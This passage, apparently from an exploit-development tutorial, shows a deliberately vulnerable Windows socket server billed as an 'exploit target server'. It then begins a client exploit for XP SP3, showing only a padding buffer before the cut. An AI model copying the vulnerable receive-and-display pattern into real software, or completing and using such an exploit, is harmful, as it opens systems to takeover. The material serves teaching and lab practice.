 ```
}
void main()
{
	int sock,msgsock,lenth,receive_len;
	struct sockaddr_in sock_server,sock_client;
	char buf[0x200]; //noticed it is 0x200
	
	WSADATA wsa;
	WSAStartup(MAKEWORD(1,1),&wsa);
	if((sock=socket(AF_INET,SOCK_STREAM,0))<0)
	{
		cout<<sock<<"socket creating error!"<<endl;
		exit(1);
	}
	sock_server.sin_family=AF_INET;
	sock_server.sin_port=htons(7777);
	sock_server.sin_addr.s_addr=htonl(INADDR_ANY);
	if(bind(sock,(struct sockaddr*)&sock_server,sizeof(sock_server)))
	{
		cout<<"binging stream socket error!"<<endl;
	}
	cout<<"**************************************"<<endl;
	cout<<"     exploit target server 1.0	   "<<endl;
	cout<<"**************************************"<<endl;
	listen(sock,4);
	lenth=sizeof(struct sockaddr);
	do{
		msgsock=accept(sock,(struct sockaddr*)&sock_client,(int*)&lenth);    
		if(msgsock==-1)
		{
			cout<<"accept error!"<<endl;
			break;
		}
		else 
			do
			{
				memset(buf,0,sizeof(buf));
				if((receive_len=recv(msgsock,buf,sizeof(buf),0))<0)   //buf存放客户端发送的请求
				{
					cout<<"reading stream message erro!"<<endl;
					receive_len=0; 
				}
				msg_display(buf); 
			}while(receive_len);
			closesocket(msgsock);
	}while(1);
	WSACleanup();
}
```  
```
//客户端
#include "stdafx.h"
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#include <conio.h>
//xp sp3

#pragma comment(lib,"Ws2_32")

unsigned char buff[0x200] =
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```